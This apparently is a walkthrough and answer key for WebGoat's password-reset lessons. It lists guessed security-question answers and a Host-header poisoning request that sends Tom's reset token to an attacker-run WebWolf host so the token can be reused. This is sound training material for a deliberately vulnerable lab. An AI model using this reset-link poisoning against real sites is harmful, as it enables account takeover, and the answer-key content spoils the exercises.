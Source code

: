 # Password Reset

## 2 - Email functionality with Webwolf

Steps:
1. Click forgot password
2. Send email to `tonnctf@webgoat.org`
3. Go to Webgoat
```http://www.webwolf.local/WebWolf/mail```
4. Login with your Webgoat username and password
5. Open the email, and the content is
```Thanks for resetting your password, your new password is: ftcnnot```

Answer:
Email: tonnctf@webgoat.org
Password: ftcnnot

## 4 - Security Questions

Resource for good security questions - http://goodsecurityquestions.com/

Your username is 'webgoat' and your favorite color is 'red'.
Users to try are "tom", "admin" and "larry"

Answer:
Your username: tom, favourite color: purple
Your username: admin, favourite color: green
Your username: larry, favourite color: yellow


## 5 - The Problem with Security Questions

Answer: Just go through the possible security questions and see the reasons why it is not good


## 6 - Creating the password reset link

Reset the password of Tom `tom@webgoat-cloud.org`

Hint:
1. Edit the HOST to include port 9090, and email to reset to tom@webgoat-cloud.org 
```
POST /WebGoat/PasswordReset/ForgotPassword/create-password-reset-link HTTP/1.1
Host: www.webwolf.local:9090

email=tom@webgoat-cloud.org
```

2. The output is shown in webwolf
```http://www.webwolf.local/WebWolf/requests```

3. Use the reset password link in webwolf -> incoming requests, especially the unique token
```http://www.webgoat.local/WebGoat/PasswordReset/reset/reset-password/0b4ef34c-c061-4624-9d16-2e33f1230591```

4. Change the password to password123

Answer:
Email: tom@webgoat-cloud.org
password: password123



